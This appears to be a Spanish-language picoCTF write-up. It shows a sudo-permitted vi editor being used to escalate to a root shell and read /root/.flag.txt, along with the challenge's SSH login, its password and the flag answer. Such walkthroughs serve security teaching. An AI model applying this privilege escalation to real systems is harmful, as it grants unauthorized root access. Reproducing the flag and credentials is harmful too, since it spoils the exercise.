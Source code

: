 ---
#### Descripcion:
Can you read files in the root file?
Additional details will be available after launching your challenge instance.

###### Informacion adicional:
```
ssh -p 52634 picoplayer@saturn.picoctf.net
Password: j4ks-9nxB-
Can you login and read the root file?
```

#### Pistas: 
```
1.- What permissions do you have?
```

#### Solución:
- **Entramos a un servidor de manera remota por medio de SSH, con la direccion que se nos proporciono despues de comenzar el desafio.**
```
Esraly-picoctf@webshell:~$ ssh -p 52634 picoplayer@saturn.picoctf.net
```
- **Apliqué ls para ver si contenia algo, pero al ver las pistas se observa que necesitamos permisos, para ello usaremos sudo -l para ver que comandos estan disponibles.**
```
picoplayer@challenge:~$ ls
picoplayer@challenge:~$ sudo -l
[sudo] password for picoplayer: 
User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
```
- **Tenemos solamente un comando disponible, lo que quiere decir que ese es el que se usará:**
```
picoplayer@challenge:~$ sudo vi test

[No write since last change]
```
- **Necesitamos una vista detallada de los archivos que estan en root, por lo tanto usaremos ls -la, en primera instancia no aparece el archivo que buscamos, por lo que saldremos de la carpeta e intentaremos de nuevo.**
```
root@challenge:/home/picoplayer# ls -la
total 24
drwxr-xr-x 1 picoplayer picoplayer    37 Feb 21 20:13 .
drwxr-xr-x 1 root       root          24 Aug  4  2023 ..
-rw-r--r-- 1 picoplayer picoplayer   220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 picoplayer picoplayer  3771 Feb 25  2020 .bashrc
drwx------ 2 picoplayer picoplayer    34 Feb 21 20:09 .cache
-rw-r--r-- 1 picoplayer picoplayer   807 Feb 25  2020 .profile
-rw------- 1 root       root       12288 Feb 21 20:13 .test.swp
root@challenge:/home/picoplayer# cd /root
root@challenge:~# ls -la
total 16
drwx------ 1 root root   22 Feb 21 20:12 .
drwxr-xr-x 1 root root   63 Feb 21 20:08 ..
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   35 Aug  4  2023 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
-rw------- 1 root root  759 Feb 21 20:12 .viminfo
```
- **Se encuentra el archivo flag.txt, usando cat lo leeremos.**
```
root@challenge:~# cat .flag.txt 
picoCTF{uS1ng_v1m_3dit0r_021d10ab}
```

#### Bandera:
- **picoCTF{uS1ng_v1m_3dit0r_021d10ab}**

